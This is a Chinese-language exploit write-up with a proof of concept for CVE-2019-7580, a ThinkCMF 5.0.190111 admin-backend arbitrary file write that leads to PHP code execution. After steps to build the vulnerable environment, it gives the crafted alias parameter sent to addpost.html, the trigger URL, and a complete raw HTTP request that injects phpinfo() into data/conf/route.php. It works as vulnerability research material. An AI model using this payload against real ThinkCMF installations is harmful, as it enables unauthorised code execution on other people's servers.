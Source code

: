 ## CVE-2019-7580 thinkcmf-5.0.190111后台任意文件写入导致的代码执行  

# 0x00 环境搭建  

首先去thinkcmf下载5.0的最新版  
https://github.com/thinkcmf/thinkcmf/archive/5.0.190111.zip  
切换到web根目录下，比如/var/www，然后新建一个目录：ThinkCMF-5.0.190111  
把除public目录外的文件都移动到ThinkCMF-5.0.190111下。然后修改index.php，将其中的  

```
define('CMF_ROOT', __DIR__ . '/../');
```

修改为  

```
define('CMF_ROOT', __DIR__ . '/ThinkCMF-5.0.190111/');
```

然后一步步完成安装。  
参考：https://blog.csdn.net/youaregoo/article/details/82219722  

# 0x01 利用过程：  

后台登录状态下，  
1、将payload插入数据库并读取然后写入data/conf/route.php文件  

```
POST /portal/admin_category/addpost.html
parent_id=0&name=111&alias=a'=>array(%22%22)%2csleep(5)%2c'b
```

2、然后访问：  

```
/portal/admin_category/index.html
```

触发  

```
include data/conf/route.php  
```

操作，执行payload。下图以执行sleep(5)作为演示。  

![](./img/48.png)

## POC  

```raw
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2
```

## 测试demo    

![](./img/49.gif)

> 来源： https://xz.aliyun.com/t/3997 